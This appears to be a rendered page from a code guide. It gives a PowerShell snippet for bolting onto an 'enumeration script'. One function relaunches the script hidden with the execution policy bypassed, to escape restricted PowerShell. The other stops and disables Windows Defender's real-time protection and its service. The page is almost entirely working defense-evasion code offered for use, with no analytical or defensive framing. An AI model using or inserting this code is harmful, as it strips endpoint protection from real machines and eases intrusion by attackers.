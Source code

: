 ### **Integrating the Function into Your Script**

Add this function to your script along with a call to the function. Here’s how you can integrate it:

```powershell
# Function to break out of restricted PowerShell
function Break-OutOfRestrictedPowerShell {
    # Spawn a new unrestricted PowerShell process
    $unrestrictedPSCommand = "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command `"& {Start-Process powershell.exe -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File $($MyInvocation.MyCommand.Path)'}`""
    
    # Execute the command
    Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command $unrestrictedPSCommand" -WindowStyle Hidden
    Write-Host "[*] Breaking out of restricted PowerShell..." -ForegroundColor Green
    exit
}

# Function to disable Windows Defender
function Disable-WindowsDefender {
    Write-Host "[*] Attempting to disable Windows Defender..." -ForegroundColor Yellow

    # Check if the script is running with administrative privileges
    $isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")

    if ($isAdmin) {
        try {
            # Disable Windows Defender Real-Time Protection
            Set-MpPreference -DisableRealtimeMonitoring $true
            Write-Host "[+] Windows Defender Real-Time Protection disabled." -ForegroundColor Green
            
            # Disable Windows Defender services
            Stop-Service -Name WinDefend -Force
            Set-Service -Name WinDefend -StartupType Disabled
            Write-Host "[+] Windows Defender service stopped and disabled." -ForegroundColor Green
        }
        catch {
            Write-Host "[-] Failed to disable Windows Defender. Error: $_" -ForegroundColor Red
        }
    }
    else {
        Write-Host "[-] This script must be run as Administrator to disable Windows Defender." -ForegroundColor Red
    }
}

# Call the breakout function at the start
Break-OutOfRestrictedPowerShell

# Call the function to disable Windows Defender
Disable-WindowsDefender

# Rest of your enumeration script...
```
